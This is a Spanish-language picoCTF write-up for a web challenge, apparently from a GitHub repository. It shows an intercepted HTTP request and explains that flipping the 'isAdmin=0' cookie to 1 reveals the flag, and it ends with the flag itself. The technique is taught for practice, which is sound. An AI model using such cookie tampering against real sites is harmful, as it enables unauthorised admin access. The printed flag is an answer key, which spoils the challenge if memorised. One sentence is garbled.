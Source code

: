 #### Descripción

¿Puedes conseguir la bandera?Vaya a este [sitio web](http://saturn.picoctf.net:63564/) y vea lo que puede descubrir.

## Solución
Si utilicé un programa como Burp Suite e intercepté la solicitud HTTP, podemos ver lo siguiente.

```httpspec
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:52021
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://saturn.picoctf.net:52021/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: isAdmin=0
Connection: close
```

Podemos ver que hay un archivo . Cambié eso a 1 y obtuve la bandera.`Cookie: isAdmin=0`

## **Respuesta en el formato del concurso:**
picoCTF{gr4d3_A_c00k13_0d351e23}
